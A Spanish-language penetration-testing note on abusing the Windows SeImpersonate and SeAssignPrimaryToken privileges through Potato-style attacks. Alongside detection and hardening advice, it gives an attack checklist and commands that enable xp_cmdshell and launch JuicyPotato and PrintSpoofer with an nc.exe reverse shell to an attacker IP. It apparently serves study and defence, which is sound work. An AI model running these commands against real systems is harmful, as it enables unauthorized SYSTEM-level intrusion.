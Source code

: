 # SeImpersonate y SeAssignPrimaryToken

## Introducción

El sistema Windows representa la identidad de cuentas y procesos mediante **tokens de acceso**. Dos privilegios críticos relacionados con la reutilización o asignación de tokens son **SeImpersonatePrivilege** y **SeAssignPrimaryTokenPrivilege**. Ambos permiten a procesos con los derechos adecuados actuar con el contexto de otros usuarios y, si se abusan en entornos no endurecidos, posibilitan escaladas locales a NT AUTHORITY/SYSTEM.

---

## Definición

* **SeImpersonatePrivilege**: "Impersonate a client after authentication" — permite a un proceso (o hilo) **impersonar** a un cliente autenticado (usar su token de impersonación) para acceder a recursos en nombre de ese cliente. A menudo este privilegio se le otorga a cuentas administrativas. Un ejemplo del uso de este token es mediante la función [`CreateProcessWithTokenW`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw).

`Nota`: `CreateProcessWithTokenW` es una función de la API Win32 que crea un nuevo proceso y permite lanzarlo con la identidad de un token dado. Requiere que el llamador tenga `SeImpersonatePrivilege`.  

* **SeAssignPrimaryTokenPrivilege**: "Replace a process level token" — permite crear o asignar **tokens primarios** a procesos (por ejemplo, usar la función `CreateProcessAsUser`) y es más restrictivo.

Diferencia práctica:

* *Impersonation token* suele estar asociado a un thread y se usa para actuar temporalmente como el cliente.
* *Primary token* se asigna a un proceso entero y permite crear procesos enteros bajo esa identidad.

---

## Contexto de abuso

Windows permite, por diseño, que procesos reutilicen tokens de otros procesos para realizar tareas con distintos niveles de privilegio; esa funcionalidad legítima puede ser abusada si cuentas de servicio tienen derechos de impersonación, permitiendo a un atacante conseguir contexto SYSTEM mediante técnicas tipo Potato:

* Servicios que atienden conexiones de cliente (IIS, SQL Server, servicios RPC/COM) a menudo necesitan impersonar al usuario que realiza la petición para acceder a recursos (carpetas compartidas, bases de datos, otros servicios). Por ello, las cuentas de estos servicios a veces tienen `SeImpersonate` habilitado.
* Si se obtiene ejecución en el contexto de uno de esos servicios (por ejemplo, nt service/mssql$..., IIS APPPOOL/defaultapppool), la presencia de `SeImpersonate` o `SeAssignPrimaryToken` puede permitir una escalada rápida a SYSTEM.

Ataque tipo potato:
El atacante “engaña” a un componente que corre como SYSTEM para que inicie comunicación con el proceso del atacante; durante esa interacción se produce la oportunidad para que el atacante obtenga/usar el token SYSTEM.

---

## Ejemplo de explotación (JuicyPotato / PrintSpoofer — flujo resumido)

1. Obtener RCE en contexto de un servicio (ej.: xp_cmdshell en SQL, web shell en IIS, Jenkins RCE).
2. Confirmar la cuenta del proceso: whoami (ej. nt service/mssql$sqlexpress01).
3. Comprobar privilegios: whoami /priv → comprobar SeImpersonatePrivilege o SeAssignPrimaryTokenPrivilege.
4. Subir herramienta de explotación (JuicyPotato.exe, PrintSpoofer.exe, nc.exe).
5. Ejecutar herramienta apuntando al CLSID/puerto COM apropiado y al payload (reverse shell).
6. Si tiene éxito, obtendrás un shell como NT AUTHORITY/SYSTEM.

---

## Comandos y ejemplos prácticos

* Comprobar identidad y privilegios:

  ```cmd
  whoami
  whoami /priv
  ```

* Habilitar xp_cmdshell (ejemplo con Impacket mssqlclient):

  ```sql
  EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
  EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
  ```

* Ejecutar JuicyPotato (ejemplo):

  ```cmd
  JuicyPotato.exe -l 53375 -p C:/Windows/System32/cmd.exe -a "/c C:/tools/nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
  ```

* Ejecutar PrintSpoofer (ejemplo):

  ```cmd
  PrintSpoofer.exe -c "C:/tools/nc.exe 10.10.14.3 8443 -e cmd.exe"
  ```

> Observación: JuicyPotato no funciona en builds recientes de Windows; en esos casos probar PrintSpoofer, RoguePotato u otras variantes.

---

## Detección (artefactos y logs)

* **Windows Security Event Log**:

  * 4624 / 4634 (logons), 4688 (creación de procesos) — buscar procesos inusuales creados por servicios.
* **Sysmon**:

  * EventID 1 (ProcessCreate): procesos hijos anómalos de servicios (ej. w3wp.exe -> cmd.exe).
  * EventID 10 (ProcessAccess): accesos entre procesos que indican token stealing.
  * EventID 3 (NetworkConnect): conexiones reversas (nc.exe).
* **EDR**: llamadas a APIs sensibles (CreateProcessWithTokenW, CreateProcessAsUser) y creación de procesos con tokens distintos deben alertar.
* Revisar named pipes y endpoints COM/RPC que estén siendo escuchados por procesos no habituales.

---

## Mitigaciones y hardening

* **Eliminar los privilegios** SeImpersonatePrivilege y SeAssignPrimaryTokenPrivilege de cuentas que no los necesiten (Local Security Policy -> User Rights Assignment o GPO).
* Ejecutar servicios con cuentas con menor privilegio (service accounts con permisos mínimos).
* Separar responsabilidades: no usar la misma cuenta para múltiples servicios críticos.
* Habilitar PPL / LSASS protections y tecnologías como Credential Guard cuando aplique.
* Implementar Sysmon + EDR con reglas que detecten procesos creados desde servicios y uso de APIs de token.
* Application whitelisting y bloqueo de ejecución de binarios no autorizados en servidores críticos.

---

## Checklist

* [ ] Obtener RCE en contexto de servicio.
* [ ] whoami y whoami /priv.
* [ ] Subir herramienta de explotación compatible con la versión de Windows objetivo.
* [ ] Intentar JuicyPotato → si falla, probar PrintSpoofer / RoguePotato / alternativas.
* [ ] Si obtienes SYSTEM, documentar evidencia y limpiar artefactos en entorno de laboratorio.

---

## Notas finales y recursos

* JuicyPotato, PrintSpoofer y RoguePotato son ejemplos públicos; su efectividad depende de la build de Windows.
* Consulta documentación técnica sobre tokens y las APIs CreateProcessWithTokenW, CreateProcessAsUser para profundizar.
* Siempre trabajar en entornos controlados y con autorización.

---

*Fin.*
